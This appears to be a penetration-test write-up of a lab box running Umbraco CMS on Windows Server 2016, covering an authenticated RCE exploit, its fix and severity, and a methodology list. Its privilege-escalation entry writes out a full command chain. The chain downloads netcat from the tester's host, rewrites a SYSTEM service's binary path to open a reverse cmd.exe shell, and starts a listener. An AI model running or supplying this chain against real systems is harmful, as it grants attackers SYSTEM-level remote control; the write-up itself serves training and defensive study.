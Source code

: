 **Vulnerable System**: 
=======================

![](media/8d83256bfd7ad98c6402b8b0507b9101.png)

**Operating System**: Windows Server 2016

**Kernel**: N/A

**Vulnerability Exploited**: Remote Code Execution

**Exploit Used**: Umbraco RCE PowerShell Reverse Shell PoC

**Proof of Concept Code**: https://github.com/Jonoans/Umbraco-RCE

**Vulnerability Explained**: The exploit takes advantage of vulnerability in
Umbraco CMS, which allows remote code execution by sending a specifically
crafted packet as authenticated user.

**Vulnerability fix**: Update to the latest version of software which does not
contain the vulnerability.

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Weak Service Permissions

**Exploit Used**: N/A

**Proof of Concept Code**: wget "http://10.10.14.224/nc.exe" -outfile "nc.exe"
\| sc.exe config UsoSvc binpath= "C:\\inetpub\\wwwroot\\nc.exe -nv 10.10.14.224
8080 -e C:\\WINDOWS\\System32\\cmd.exe" \| net stop UsoSvc \| net start UsoSvc
\| nc -nvlp 8080

**Privilege Escalation Vulnerability Explained:** A service is ran with SYSTEM
privileges and weak permissions. It is possible for a regular user to modify the
binary path of the service and execute any command on the system.

**Vulnerability fix**: Restrict who has permissions to modify, start or stop the
service as per principle of least privilege.

**Severity**: **High**

Methodology
-----------

-   Port Scanning (nmap)

-   Web Port Enumeration (Browser, Gobuster)

-   NFS Enumeraiton (showmount, mount, strings)

-   Hash Cracking (hashcat64)

-   Low Privilege Escalation (google, browser, RCE)
